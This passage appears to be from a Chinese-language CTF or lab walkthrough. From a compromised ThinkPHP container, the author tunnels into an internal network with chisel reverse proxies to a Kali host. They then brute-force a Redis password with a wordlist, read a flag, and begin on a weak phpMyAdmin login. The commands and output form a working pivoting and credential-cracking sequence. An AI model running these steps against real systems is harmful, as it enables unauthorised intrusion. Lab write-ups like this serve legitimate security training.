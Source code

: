 ```shell title="Thinkphp"
2024/07/25 03:45:09 client: Connecting to ws://192.168.200.129:1331
2024/07/25 03:45:09 client: Connected (Latency 2.88257ms)
```

成功建立 socks 代理

```shell title="Kali"
2024/07/25 11:45:28 server: session#6: tun: proxy#R:10002=>socks: Listening
```

## Redis 连接数据库

将 `10.85.101.2:6379`Redis 服务转发出来

```shell title="Thinkphp"
(remote) www-data@4c2afff6c232:/tmp$ ./chisel_1.9.1_linux_amd64 client 192.168.200.129:1331 R:0.0.0.0:16379:10.85.101.2:6379
2024/07/25 04:56:13 client: Connecting to ws://192.168.200.129:1331
2024/07/25 04:56:13 client: Connected (Latency 755.012µs)
```

成功建立转发

```shell title="Kali"
2024/07/25 12:56:13 server: session#16: tun: proxy#R:16379=>10.85.101.2:6379: Listening
```

然后使用 [vgo0/redisbrute: Rust based Redis AUTH bruteforcer with support for ACLs](https://github.com/vgo0/redisbrute) 进行爆破

```shell
┌──(randark ㉿ kali)-[~/tools]
└─$ ./redisbrute --ip 127.0.0.1 --port 16379 --passwords /usr/share/wordlists/rockyou.txt
[+] Valid password found - 12345
```

## flag - Redis

爆破的到密码之后，进入数据库

```shell
┌──(randark ㉿ kali)-[~/tools]
└─$ redis-cli -h 127.0.0.1 -p 16379 -a "12345"
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:16379> KEYS *
1) "flag"
127.0.0.1:16379> GET flag
"WSS-Studio{Redis-870ed89a-6658-4350-8d17-9f293df5c6b1}"
```

## phpMyAdmin 弱密码

浏览器设置代理，访问 `http://10.85.101.4/`
